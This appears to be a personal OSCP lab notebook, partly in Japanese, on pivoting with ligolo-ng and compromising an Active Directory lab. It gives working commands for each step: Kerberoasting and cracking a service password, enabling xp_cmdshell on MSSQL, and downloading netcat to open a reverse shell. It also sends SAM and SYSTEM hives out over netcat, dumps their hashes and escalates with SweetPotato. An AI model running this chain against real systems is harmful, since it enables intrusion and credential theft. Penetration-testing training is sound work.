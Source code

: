 <pivotting technique>

1. Transfer the agent file to the machine hovering over both Network segments
wget http://192.168.45.173/agent.exe -outfile agent.exe

2. Start the ligolo server 
./proxy -selfcert -laddr 0.0.0.0:443

3. Start the ligolo agent to connect to the server 
./agent.exe -connect 192.168.45.173:443 -ignore-cert

<img src="https://github.com/timrekmlac/Cybersecurity-Study/blob/ba79d1edd7ee4288ad0cbb6090862efaf0d65c09/OSCP/images/image.png">

<img src="https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/image.png?raw=true">

![Architecture Diagram](https://raw.githubusercontent.com/timrekmlac/Cybersecurity-Study/main/OSCP/images/image.png)

<internal machine>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/image.png?raw=true)

ここで、internal machine である、DCにもアクセス出来る様になる。


impacket-GetUserSPNs -request -dc-ip 10.10.138.146 oscp.exam/Eric.Wallows





hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt
sql_svc の password が、 Dolphin1と分かる。


impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth


EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;


EXEC xp_cmdshell ' whoami '



listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888
listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444
listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000






( なぜかエラーになった  )  EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.138.147nc64.exe C:\Windows\Temp\nc64.exe';
EXEC xp_cmdshell 'powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.138.147/nc64.exe'',''C:\Users\Public\nc64.exe'')"';




EXEC xp_cmdshell 'C:\Users\Public\nc64.exe 10.10.138.147 4444 -e powershell'


(4444 にて、nc で待ち受ける)



C:\windows.old\windows\system32>nc64.exe 10.10.149.138 5555 < SAM
C:\windows.old\windows\system32>.\nc64.exe 10.10.149.138 5555 < SYSTEM

nc -lvnp 5555 > SAM
nc -lvnp 5555 > SYSTEM





impacket-secretsdump -sam SAM -system SYSTEM LOCAL



 .\SweetPotato -t * -p shell.exe -l 1235

このマシンのエスカレは、sweetpotato で出来る。




impacket-secretsdump -sam SAM -system SYSTEM LOCAL



	

https://medium.com/@saintlafi/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022

https://zenn.dev/megapachirisu/articles/bb0e9beb3f20ae

https://zenn.dev/codingotter/articles/79590426fecee5#chisel-dynamic-port-forwarding


https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9

https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

Ligolo-ng Accessing Localhost Ports




